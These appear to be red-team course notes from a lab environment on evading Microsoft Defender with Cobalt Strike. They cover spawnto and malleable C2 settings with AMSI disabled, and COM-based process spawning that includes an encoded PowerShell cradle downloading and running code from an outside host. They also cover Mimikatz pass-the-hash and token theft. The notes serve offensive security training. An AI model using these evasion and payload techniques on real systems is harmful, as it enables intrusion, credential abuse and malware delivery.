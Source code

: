# MS Defender (part 2)

## Behavioural Detections

When dealing with behavioural detections, the Defender alerts contain:

    Resources                      : {behavior:_pid:4964...

The Beacon on the file server runs inside the rundll32 process. When CS runs a post-ex command that uses the [fork & run](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/appendix-a_beacon-opsec-considerations.htm) pattern, it:

1. Spawns a sacrificial process (rundll32 by default -- now a common point of detection)
2. Injects the post-ex capability into it
3. Retrieves the output over a named pipe
4. Kills the process

Main reason is so that unstable post-ex tools don't crash the Beacon.

The service binary payload used by psexec also uses rundll32 by default, which is why Beacons run as rundll32.exe. The process used for post-ex commands and psexec can be changed on the fly in the CS GUI; use the spawnto command. x86 and x64 must be specified individually and environment variables can also be used.

    beacon> spawnto x64 %windir%\sysnative\dllhost.exe
    beacon> spawnto x86 %windir%\syswow64\dllhost.exe

Use the sysnative and syswow64 paths -- not system32. Using powerpick to get its own process name, it returns dllhost.

    beacon> powerpick Get-Process -Id $pid | select ProcessName
    ProcessName
    -----------
    dllhost    

powerpick + PowerView run on the file server without being caught by AMSI or behavioural detection:

    beacon> run hostname
    fs
    beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
    beacon> powerpick Get-Domain

Use the ```spawnto``` command without any argument to reset back to default.

Set this inside malleable C2 with the spawnto_x64 or spawnto_x86 directives inside the post-ex block. New Beacons use this as their new default:

    post-ex {
            set amsi_disable "true";
            set spawnto_x64 "%windir%\\sysnative\\dllhost.exe";
            set spawnto_x86 "%windir%\\syswow64\\dllhost.exe";
    }

When moving laterally with psexec, Beacon attempts to use the setting from your malleable C2 profile. However, it cannot use environment variables (such as %windir%), so will fall back to rundll32. Override this at runtime with ak-settings to specify an absolute path instead:

    beacon> ak-settings spawnto_x64 C:\Windows\System32\dllhost.exe
    beacon> ak-settings spawnto_x86 C:\Windows\SysWOW64\dllhost.exe

Can also change the name of the service (rather than 7 random characters) with ```ak-settings service <name>```. Lateral movement with psexec will then land us in dllhost.exe.

## Parent/Child Relationships

A subset of behavioural detections come from the parent/child relationships of running processes. A process only has one parent but can have many children. Applications such as [Process Hacker](https://processhacker.sourceforge.io) show these relationships. Most user apps run as children of Explorer. Many parent/child relationships are considered highly suspicious or outright malicious; e.g. our initial access payload. Since we executed a PowerShell one-liner via an Office macro, the instance of powershell.exe becomes a child of winword.exe. Defender blocks such things because Word spawning PS is a well-known phishing tactic.

One workaround is to execute PS without it becoming a child of Word. A simple way is with COM. Like COM objects in the DCOM lateral movement module, COM can be used for local execution. Both ShellWindows and ShellBrowserWindow spawn processes under Explorer. A simple example of spawning a hidden PS process using ShellWindows:

    Set shellWindows = GetObject("new:9BA05972-F6A8-11CF-A442-00A0C90A8F39")
    Set obj = shellWindows.Item()
    obj.Document.Application.ShellExecute "powershell.exe", Null, Null, Null, 0

The arguments for ShellExecute are [documented](https://learn.microsoft.com/en-gb/windows/win32/shell/shell-shellexecute).

A weaponized example:

    Set shellWindows = GetObject("new:9BA05972-F6A8-11CF-A442-00A0C90A8F39")
    Set obj = shellWindows.Item()
    obj.Document.Application.ShellExecute "powershell.exe", "-nop -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AbgBpAGMAawBlAGwAdgBpAHAAZQByAC4AYwBvAG0ALwBhACIAKQA=", Null, Null, 0

## Command Line Detections

Defender can also inspect the command line arguments of a process and prevent it from starting if it has malicious content, e.g. the built-in pth command:

    beacon> getuid
    [*] You are DEV\bfarmer (admin)
    beacon> pth DEV\jking 59fc0f884922b4ce376051134c71e22c

The console log shows that this expands to:

    sekurlsa::pth /user:"jking" /domain:"DEV" /ntlm:59fc0f884922b4ce376051134c71e22c /run:"%COMSPEC% /c echo 9c91bb58485 > \\.\pipe\34a65a"

This gets an access denied error when Mimikatz tries to call CreateProcessWithLogonW. The "CmdLine" prefix gives away the origin of the detection. In this case, it's the ```echo x > \\.\pipe\``` pattern, which is synonymous with named pipe impersonation. Enforcement is by the Windows Defender driver in the kernel. This driver gets notified when new processes which contain a PS_CREATE_NOTIFY_INFO structure are created. 

Bypassing or disabling kernel-level callbacks is out of scope for RTO. A workaround is not use the same command line arguments. For pass-the-hash, start an arbitrary process and steal its token manually:

    beacon> mimikatz sekurlsa::pth /user:"jking" /domain:"DEV" /ntlm:59fc0f884922b4ce376051134c71e22c /run:notepad.exe
    beacon> steal_token 17896    //PID
    [+] Impersonated DEV\bfarmer
    beacon> ls \\web.dev.cyberbotic.io\c$


